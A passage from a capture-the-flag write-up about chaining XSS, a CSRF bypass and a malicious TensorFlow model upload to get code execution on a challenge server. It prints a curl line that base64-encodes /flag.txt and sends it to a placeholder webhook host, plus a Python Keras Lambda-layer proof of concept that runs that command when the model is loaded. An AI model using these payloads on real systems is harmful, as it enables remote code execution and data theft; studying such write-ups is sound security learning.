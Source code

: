 because I didn't really know what _TensorFlow_ models really were, I looked around the site a bit to see if there was a way to **inject some code** inside a model, and I was right!

```
TensorFlow models (to use a term commonly used by machine learning practitioners)
are expressed as programs that TensorFlow executes.
TensorFlow programs are encoded as computation graphs. Since models are
practically programs that TensorFlow executes, using untrusted models or graphs
is equivalent to running untrusted code.

If you need to run untrusted models, execute them inside a sandbox.
Memory corruptions in TensorFlow ops can be recognized as security issues
only if they are reachable and exploitable through production-grade, benign models.
```

so, now we finally have a strategy:

### Strategy
1. We can exploit the `XSS` on the dashboard to "pivot" the admin towards protected endpoints
2. Bypassing the `CSRF` token, we can access the `/api/internal/model` endpoint for the last stage
3. We add a maliciously created _TensorFlow model_ to execute arbitrary code and read the flag at `/flag.txt`

Easy, right? Not exactly!

### Exploiting
The exploit part was actually much tougher than I expected. Only at the end I realized that my strategy involved _uploading a whole file via an XSS_, a file which is not present on the server itself and can't be uploaded on the server, meaning I needed a way to put the **whole binary code inside the request**.

#### The binary for the RCE
Because the problems are many, I decided to confront them one by one. To start, I needed a way to create a malicious _TensorFlow model_ to inject code. Ideally, the payload I had in mind was actually pretty simple: exfiltrate the flag through a `cURL` request:
```bash
curl http://WEBHOOK?flag=$(cat /flag.txt | base64)
```
Now I just needed some more information about the injection part. Luckily it was pretty easy to find some material: https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model.

To summarize, _TensorFlow_ models are divided into [layers](https://www.tensorflow.org/guide/intro_to_modules), which can be roughly approximated to _"mathematical functions"_, one of which is delegated to some specific tasks. The _layer_ we are interested in is called _"Lambda"_ (seeing this, I immediately knew we were on the right path, because of the name of the challenge), and inside the linked site we also have a _PoC_ on how to leverage this layer to obtain _RCE_:

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("curl http://WEBHOOK?flag=$(cat /flag.txt | base64)")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
